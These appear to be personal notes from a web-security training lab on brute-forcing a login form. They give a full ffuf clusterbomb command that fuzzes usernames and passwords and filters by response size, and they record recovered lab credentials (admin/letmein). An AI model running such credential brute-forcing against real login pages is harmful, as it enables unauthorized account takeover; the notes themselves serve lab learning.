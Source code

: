
![[Pasted image 20230717233011.png]]

this means the username was correct

![[Pasted image 20230717233149.png]]

content length is 3376 for incorrect request

![[Pasted image 20230717233545.png]]

mode clusterbomb:like cartesian product

```sh
ffuf -request authLab3req.txt -request-proto http -mode clusterbomb -w authLab3.txt:FUZZPASS -w /usr/share/seclists/SecLists-master/Usernames/top-usernames-shortlist.txt:FUZZUSER -fs 3376 -o lab3auth.txt

```

request: the request header to send
request-proto:request protocol
-fs:filter size(remove response of specified size)
-o:output to file

![[Pasted image 20230717234904.png]]

user:admin
pass:letmein

can do same with clusterbomb attack in burp intruder